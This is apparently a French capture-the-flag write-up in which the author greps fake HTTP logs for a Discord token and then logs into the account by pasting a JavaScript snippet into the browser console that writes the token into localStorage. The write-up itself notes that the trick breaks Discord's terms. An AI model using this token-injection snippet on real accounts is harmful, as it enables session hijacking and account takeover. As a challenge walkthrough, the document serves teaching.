 # Write up - toktok didi
### présentation
On télécharge le [zip fourni - lien obsolète](https://limewire.com/d/vtYyd#LK6n71NgMM).
Il contient `script.py`, qui dévoile comment ont été généré les faux fichiers de log.
Le répertoire log contient de nombreux fichier log de requête HTTP.
### trouver le token
L'énoncé nous demande de trouver un token discord.
Dans _log/_, On tente donc simplement la commande `grep -ri "token"` 
```bash
access_log_20241123-022610.log:36.165.234.1 - - [23/Nov/2024:03:19:55 +0200] "GET /api/v9/channels/987654321/messages?token=TOKEN&limit=50 HTTP/1.0" 200 2341 "https://discord.com/channels/123456789/987654321" "Mozilla/5.0 (Android 7.1.2; Mobile; rv:54.0) Gecko/54.0 Firefox/54.0"
```
Il n'y a donc même pas de faux token discord ou d'autres token que discord. Aucun faux positif.
il était donc très facile à trouver.
### connection au compte discord
Se connecter à un compte discord non-bot à partir de son token enfreint les CGU discord.
C'est uniquement pour un challenge et pour des raisons pédagogique qu'on le fait ici.

On se va à la [page web de login discord](https://discord.com/login)
On injecte ce code javascript dans la console du navigateur (pour moi, `CTRL + SHIFT + K`).
```python
setInterval(() => {
  document.body.appendChild(document.createElement`iframe`).contentWindow.localStorage.token = `"TOKEN"`;
}, 50);

setTimeout(() => {
  location.reload();
}, 100);
```
On est connecté dans le compte discord.
On accède à la description du profil, qui contient le flag. 
